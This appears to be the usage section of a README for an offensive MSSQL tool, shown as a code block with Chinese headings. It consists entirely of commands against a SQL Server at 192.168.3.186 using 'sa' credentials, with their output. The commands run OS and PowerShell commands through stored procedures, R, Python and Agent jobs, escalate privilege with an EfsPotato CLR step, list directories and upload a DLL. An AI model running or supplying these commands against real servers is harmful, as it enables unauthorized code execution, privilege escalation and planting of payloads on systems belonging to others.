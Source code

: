 ```
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd4 net -cmd5 user
\\ 的用户帐户
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
命令运行完毕，但发生一个或多个错误。
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd7 "whoami"   
mssql: Command is running, please wait.
mssql: nt service\mssqlserver
mssql: nt service\mssqlserver
r language command (default: "-c8 whoami")
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd8 "whoami" 
nt service\mssqllaunchpad
python language command (default: "-c9 whoami")
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd9 "whoami"
nt service\mssqllaunchpad
执行CreateAndStartJob
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd10 "whoami >c:\\programdata\\test.txt"
CreateAndStartJob Command Success!
当权限不足的时候
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd3 "clr_efspotato net start SQLSERVERAGENT"
列目录
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -dir "c:\\programdata"
subdirectory    depth   file
123.dll
Application Data
Documents
Huorong
Microsoft
MSSQLSERVER
Package Cache
regid.1991-06.com.microsoft
SoftwareDistribution
SSISTelemetry
Templates
test.txt
USOPrivate
USOShared
VMware
「开始」菜单
桌面
Command List Dir Success.
-x cmd命令
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -option -x --cmd11 "whoami"
[]
nt service\mssqlserver
-X powershell命令
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -option -X --cmd11 "Get-Process explorer"
[]
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   2296     113    71352     183772              1304   1 explorer
上传文件
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 --upload --local c:\Database.dll --remote C:\programdata\Database.dll 
[*] Uploading 'c:\Database.dll' to 'C:\programdata\Database.dll'...
[!] C:\programdata\Database.dll Upload Success
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -dir "c:\\programdata"
subdirectory    depth   file
123.dll
```